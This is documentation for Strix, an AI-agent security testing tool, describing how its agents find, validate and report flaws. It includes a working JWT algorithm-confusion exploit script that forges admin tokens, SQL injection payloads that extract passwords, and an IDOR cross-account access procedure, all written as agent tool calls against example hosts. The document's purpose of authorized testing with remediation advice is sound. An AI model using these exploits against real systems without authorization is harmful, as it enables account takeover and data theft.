

Strix combines AI reasoning, specialized skills, and tool execution to systematically discover, validate, and report security vulnerabilities. This page explains the detection methodology and reporting process.

## Detection Methodology

Strix follows a structured approach to vulnerability discovery:



### 1. Target Analysis

Agents begin by understanding the target:

- **Technology stack identification**: Fingerprint frameworks, languages, libraries
- **Attack surface mapping**: Enumerate endpoints, parameters, features
- **Authentication mechanisms**: Analyze login flows, token management
- **Architecture patterns**: Detect SPAs, APIs, microservices, serverless

**Example:**
```python
# Agent discovers Next.js application
terminal_execute(command="curl -I https://app.example.com")
# Response headers: x-powered-by: Next.js

# Agent creates specialized sub-agent
create_agent(
    task="Analyze Next.js application for framework-specific vulnerabilities",
    name="Next.js Security Auditor",
    skills="nextjs,xss,csrf,idor"
)
```

### 2. Reconnaissance

Skills guide targeted information gathering:

<Tabs>
  <Tab title="JWT Authentication">
    From `authentication_jwt` skill:
    
    ```bash
    # Check for well-known endpoints
    curl https://api.example.com/.well-known/openid-configuration
    curl https://api.example.com/jwks.json
    
    # Extract tokens from proxy history
    proxy_search(query="Authorization: Bearer")
    
    # Decode JWT without verification
    python_execute(code="""
    import jwt
    token = "eyJhbGc..."
    header = jwt.get_unverified_header(token)
    payload = jwt.decode(token, options={"verify_signature": False})
    print(header, payload)
    """)
    ```
  </Tab>
  
  <Tab title="SQL Injection">
    From `sql_injection` skill:
    
    ```bash
    # Identify potential injection points
    proxy_search(query="method:POST AND (body:*search* OR body:*filter*)")
    
    # Test for database errors
    proxy_replay(
        request_id="req_abc123",
        modifications={"body": {"search": "test'"}}
    )
    
    # Look for verbose error messages
    # "MySQL syntax error near 'test'' at line 1"
    ```
  </Tab>
  
  <Tab title="IDOR">
    From `idor` skill:
    
    ```bash
    # Find resource identifiers in responses
    proxy_search(query="path:*/users/* OR path:*/orders/*")
    
    # Extract IDs from authenticated requests
    # GET /api/users/12345/profile
    # GET /api/orders/67890
    
    # Test with different user accounts
    # Create test user: testuser1, testuser2
    # Attempt cross-account access
    ```
  </Tab>
</Tabs>

### 3. Hypothesis Formation

Agents form testable hypotheses:

```python
# Agent reasoning (internal thinking tool)
think(
    thought="""
    Hypothesis: JWT signature verification may be vulnerable to algorithm confusion.
    
    Observations:
    1. JWKS endpoint exposes RSA public key
    2. Token uses RS256 algorithm
    3. No alg whitelist visible in code
    
    Test plan:
    1. Decode current valid token
    2. Change alg header from RS256 to HS256
    3. Sign with RSA public key as HMAC secret
    4. Attempt to use modified token
    5. Check if accepted by backend
    """
)
```

### 4. Test Execution

Agents execute tests using appropriate tools:

<AccordionGroup>
  <Accordion title="JWT Algorithm Confusion Test">
    ```python
    # Get valid token from proxy
    result = proxy_search(query="Authorization: Bearer", limit=1)
    original_token = result["requests"][0]["headers"]["authorization"].split()[1]
    
    # Fetch public key from JWKS
    jwks_result = terminal_execute(command="curl https://api.example.com/jwks.json")
    
    # Attempt algorithm confusion
    python_execute(code=f"""
    import jwt
    import json
    import base64
    
    # Decode original token
    header = jwt.get_unverified_header("{original_token}")
    payload = jwt.decode("{original_token}", options={{"verify_signature": False}})
    
    # Load public key from JWKS
    jwks = json.loads('''{jwks_result["output"]}''')
    public_key = jwks["keys"][0]["n"]  # RSA modulus
    
    # Create malicious token with HS256
    header["alg"] = "HS256"
    malicious_token = jwt.encode(
        payload,
        public_key,  # Using public key as HMAC secret
        algorithm="HS256"
    )
    
    print(malicious_token)
    """)
    
    # Test malicious token
    terminal_execute(command=f"""
    curl -X GET https://api.example.com/user/profile \
      -H 'Authorization: Bearer {malicious_token}'
    """)
    ```
  </Accordion>
  
  <Accordion title="SQL Injection Test">
    ```python
    # Find potential SQLi endpoint
    search_request = proxy_get_request(request_id="req_search_123")
    
    # Test for error-based SQLi
    payloads = [
        "' OR '1'='1",
        "admin'--",
        "' UNION SELECT NULL,NULL,NULL--",
        "' AND 1=CAST((SELECT version()) AS INT)--"
    ]
    
    for payload in payloads:
        result = proxy_replay(
            request_id="req_search_123",
            modifications={
                "body": {"search": payload}
            }
        )
        
        # Check for SQL errors in response
        if "SQL syntax" in result["response"]["body"] or \
           "mysql" in result["response"]["body"].lower():
            # SQL error detected - vulnerability confirmed
            break
    ```
  </Accordion>
  
  <Accordion title="IDOR Test">
    ```python
    # Create two test accounts
    terminal_execute(command="""
    # Register user 1
    curl -X POST https://api.example.com/register \
      -d '{"username":"testuser1","password":"Pass123!"}'
    
    # Register user 2
    curl -X POST https://api.example.com/register \
      -d '{"username":"testuser2","password":"Pass123!"}'
    """)
    
    # Login as user1, get their resource ID
    user1_login = browser_action(action="goto", url="https://app.example.com/login")
    browser_action(action="type", text="testuser1")
    # ... complete login ...
    
    # Access user1's profile, note ID
    browser_action(action="goto", url="https://app.example.com/profile")
    # URL shows: /profile/12345
    
    # Login as user2
    # ... login flow ...
    
    # Attempt to access user1's profile ID
    browser_action(action="goto", url="https://app.example.com/profile/12345")
    
    # Check if user2 can access user1's data
    # If yes: IDOR vulnerability confirmed
    ```
  </Accordion>
</AccordionGroup>

### 5. Result Validation

Agents validate findings to avoid false positives:

<Steps>
  <Step title="Confirm Exploitation">
    Ensure the vulnerability is actually exploitable:
    
    - **JWT confusion**: Backend accepts malicious token and returns authenticated data
    - **SQL injection**: Query execution confirmed via error messages or data extraction
    - **IDOR**: Cross-account access confirmed with different user contexts
  </Step>
  
  <Step title="Assess Impact">
    Determine the real-world impact:
    
    ```python
    # What data is exposed?
    # Can attacker modify data?
    # Does it bypass authentication/authorization?
    # Is sensitive information leaked?
    ```
  </Step>
  
  <Step title="Document Proof of Concept">
    Create reproducible exploit:
    
    ```bash
    # Working exploit that can be run independently
    curl -X POST https://api.example.com/users/search \
      -H 'Content-Type: application/json' \
      -d '{"search": "' UNION SELECT username,password FROM users--"}'
    ```
  </Step>
</Steps>

## Vulnerability Reporting

Once validated, agents create structured reports:

```python
# From strix/tools/reporting/reporting_actions.py
create_vulnerability_report(
    title="JWT Algorithm Confusion Enables Authentication Bypass",
    
    description="""
    The application accepts JWT tokens signed with HS256 algorithm using the 
    RSA public key as HMAC secret. This allows attackers to forge tokens and 
    authenticate as any user.
    """,
    
    impact="""
    An attacker can:
    1. Obtain the public key from /jwks.json endpoint
    2. Create arbitrary JWT tokens for any user
    3. Access all authenticated endpoints without valid credentials
    4. Perform privileged operations as admin users
    
    This completely bypasses authentication and authorization controls.
    """,
    
    target="https://api.example.com",
    endpoint="/api/v1/user/profile",
    method="GET",
    
    cwe="CWE-327",  # Use of a Broken or Risky Cryptographic Algorithm
    
    technical_analysis="""
    The backend JWT verification logic does not enforce algorithm whitelisting.
    When a token with alg=HS256 is presented:
    
    1. Verifier extracts the kid from token header
    2. Fetches corresponding key from JWKS endpoint  
    3. Attempts verification using the key material
    4. For HS256, uses the RSA public key bytes as HMAC secret
    5. Accepts the token if signature matches
    
    Code location (inferred from behavior):
    
    // Likely vulnerable code:
    const key = await getKeyFromJWKS(token.kid);
    jwt.verify(token, key);  // No algorithm enforcement!
    
    The vulnerability exists because:
    - No algorithm whitelist is enforced
    - Public key is used for symmetric algorithm  
    - JWKS endpoint is public (no authentication required)
    """,
    
    poc_description="""
    This proof-of-concept demonstrates:
    1. Fetching the RSA public key from JWKS endpoint
    2. Decoding a valid JWT to extract payload
    3. Creating new token with alg=HS256, signed with public key
    4. Using malicious token to authenticate as any user
    """,
    
    poc_script_code="""
    #!/usr/bin/env python3
    import jwt
    import json
    import requests
    
    # 1. Fetch public key from JWKS
    jwks_url = "https://api.example.com/jwks.json"
    jwks = requests.get(jwks_url).json()
    public_key_n = jwks["keys"][0]["n"]
    
    # 2. Create malicious payload (impersonate admin)
    payload = {
        "sub": "admin",
        "email": "admin@example.com",
        "role": "administrator",
        "iat": 1709280000,
        "exp": 1709366400
    }
    
    # 3. Sign with HS256 using public key as secret
    malicious_token = jwt.encode(
        payload,
        public_key_n,
        algorithm="HS256",
        headers={"alg": "HS256", "typ": "JWT"}
    )
    
    # 4. Use malicious token to access admin endpoint
    response = requests.get(
        "https://api.example.com/admin/users",
        headers={"Authorization": f"Bearer {malicious_token}"}
    )
    
    print(f"Status: {response.status_code}")
    print(f"Response: {response.text}")
    # Expected: 200 OK with admin data (vulnerability confirmed)
    """,
    
    remediation_steps="""
    1. **Enforce algorithm whitelist**: Only accept RS256 (or your intended algorithm)
       
       ```javascript
       jwt.verify(token, publicKey, { algorithms: ['RS256'] });
       ```
    
    2. **Pin expected algorithm per key**: Store algorithm with each key in your config
    
    3. **Reject symmetric algorithms for public key crypto**: Never use HS256 with RSA keys
    
    4. **Implement defense in depth**:
       - Validate issuer (iss) claim
       - Enforce audience (aud) claim
       - Check token expiration strictly
       - Use short-lived tokens with refresh rotation
    
    5. **Security testing**:
       - Add tests for algorithm confusion
       - Verify none algorithm is rejected
       - Test with various alg header values
    
    6. **Consider additional protections**:
       - Implement token binding (DPoP)
       - Use mTLS for sensitive operations
       - Monitor for suspicious token usage patterns
    """,
    
    cvss_breakdown="""
    <cvss>
      <attack_vector>N</attack_vector>
      <attack_complexity>L</attack_complexity>
      <privileges_required>N</privileges_required>
      <user_interaction>N</user_interaction>
      <scope>U</scope>
      <confidentiality>H</confidentiality>
      <integrity>H</integrity>
      <availability>N</availability>
    </cvss>
    """
)
```

### Report Structure

Each report includes:

<Tabs>
  <Tab title="Overview">
    - **Title**: Clear, descriptive vulnerability name
    - **Description**: Brief explanation of the issue
    - **Impact**: Real-world consequences for the organization
    - **Target**: Affected system or endpoint
    - **CWE/CVE**: Standard vulnerability classifications
  </Tab>
  
  <Tab title="Technical Details">
    - **Technical Analysis**: Deep dive into the vulnerability mechanism
    - **Code Locations**: Vulnerable files and line numbers (if available)
    - **Endpoint/Method**: Specific API routes or pages affected
    - **Request/Response Examples**: HTTP traffic demonstrating the issue
  </Tab>
  
  <Tab title="Proof of Concept">
    - **PoC Description**: What the exploit demonstrates
    - **PoC Script/Code**: **Required** - Executable exploit code
    - **Expected Output**: What successful exploitation looks like
    - **Reproduction Steps**: Manual testing instructions
  </Tab>
  
  <Tab title="Risk Assessment">
    - **CVSS Score**: Automatically calculated from metrics
    - **CVSS Vector**: Detailed metric breakdown
    - **Severity**: Critical/High/Medium/Low
    - **Exploitability**: How easy to exploit
  </Tab>
  
  <Tab title="Remediation">
    - **Remediation Steps**: Specific fix recommendations
    - **Code Examples**: Secure implementation patterns
    - **Defense in Depth**: Additional security measures
    - **Testing Recommendations**: How to verify the fix
  </Tab>
</Tabs>

### CVSS Scoring

Strix automatically calculates CVSS scores:

```python
# From strix/tools/reporting/reporting_actions.py
def calculate_cvss_and_severity(
    attack_vector: str,        # N, A, L, P
    attack_complexity: str,    # L, H
    privileges_required: str,  # N, L, H
    user_interaction: str,     # N, R
    scope: str,                # U, C
    confidentiality: str,      # N, L, H
    integrity: str,            # N, L, H
    availability: str,         # N, L, H
) -> tuple[float, str, str]:
    # Constructs CVSS vector string
    vector = (
        f"CVSS:3.1/AV:{attack_vector}/AC:{attack_complexity}/"
        f"PR:{privileges_required}/UI:{user_interaction}/S:{scope}/"
        f"C:{confidentiality}/I:{integrity}/A:{availability}"
    )
    
    # Calculates score using cvss library
    c = CVSS3(vector)
    base_score = c.scores()[0]  # 0.0 - 10.0
    base_severity = c.severities()[0].lower()  # critical/high/medium/low
    
    return base_score, base_severity, vector
```

**Example CVSS:**
- **JWT Algorithm Confusion**: 9.1 Critical (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)
- **SQL Injection**: 8.6 High (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)
- **IDOR**: 6.5 Medium (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N)

### Duplicate Detection

Strix prevents redundant findings:

```python
# From strix/tools/reporting/reporting_actions.py
existing_reports = tracer.get_existing_vulnerabilities()

candidate = {
    "title": title,
    "description": description,
    "endpoint": endpoint,
    "technical_analysis": technical_analysis,
}

dedupe_result = check_duplicate(candidate, existing_reports)

if dedupe_result.get("is_duplicate"):
    return {
        "success": False,
        "message": f"Duplicate of '{duplicate_title}' (id={duplicate_id})",
        "reason": dedupe_result.get("reason"),
    }
```

Duplicates are detected based on:
- Title similarity
- Endpoint matching
- Technical analysis overlap
- Vulnerability type

## Testing Patterns

### Authentication Testing

```python
# Pattern: Create sub-agent for auth testing
create_agent(
    task="Comprehensive authentication security testing",
    name="Authentication Security Specialist",
    skills="authentication_jwt,business_logic,csrf,session_management"
)

# Agent will test:
# - Token forgery (algorithm confusion, signature bypass)
# - Session fixation and hijacking  
# - Password reset vulnerabilities
# - Brute force protections
# - OAuth/OIDC misconfigurations
# - Multi-factor authentication bypasses
```

### Authorization Testing

```python
create_agent(
    task="Test for authorization bypasses and privilege escalation",
    name="Authorization Testing Agent",
    skills="broken_function_level_authorization,idor,mass_assignment"
)

# Agent will test:
# - Vertical privilege escalation (user → admin)
# - Horizontal privilege escalation (user1 → user2)  
# - Function-level access controls
# - Parameter manipulation
# - Hidden endpoints
```

### Injection Testing

```python
create_agent(
    task="Test all input vectors for injection vulnerabilities",
    name="Injection Testing Specialist",
    skills="sql_injection,xss,xxe,ssrf,rce"
)

# Agent will test:
# - SQL injection (error-based, blind, time-based)
# - XSS (reflected, stored, DOM-based)
# - XXE in XML parsers
# - SSRF via URL parameters
# - RCE in file uploads, deserialization, template engines
```

## Best Practices

### Validation Before Reporting

✅ **Confirm exploitability** - Test with different contexts, users, permissions
✅ **Document exact steps** - Reports must be reproducible
✅ **Assess real impact** - Consider business context, not just technical severity
✅ **Provide working PoC** - Executable code, not just descriptions
✅ **Check for duplicates** - Avoid reporting the same issue multiple times

### False Positive Reduction

❌ **Error messages alone** aren't vulnerabilities without exploitation
❌ **Security headers** missing isn't critical without active exploitation path
❌ **Verbose responses** require demonstrated impact
❌ **Information disclosure** must leak sensitive data, not just version numbers

### Report Quality

High-quality reports include:

1. **Clear title**: "JWT Algorithm Confusion" not "Auth problem"
2. **Concise description**: 2-3 sentences explaining the core issue
3. **Demonstrated impact**: "Allows any user to access admin panel" not "Could be risky"
4. **Working exploit**: Code that actually runs and demonstrates the vulnerability
5. **Specific remediation**: "Use algorithms: ['RS256']" not "Fix the JWT validation"

## Next Steps

<CardGroup cols={2}>
  <Card title="Skills" icon="book-open" href="/concepts/skills">
    Explore available security testing skills
  </Card>
  <Card title="Tools" icon="toolbox" href="/concepts/tools">
    Learn about testing tools
  </Card>
  <Card title="Agents" icon="robot" href="/concepts/agents">
    Understand agent coordination
  </Card>
  <Card title="Examples" icon="code" href="/cli/examples">
    See real vulnerability findings
  </Card>
</CardGroup>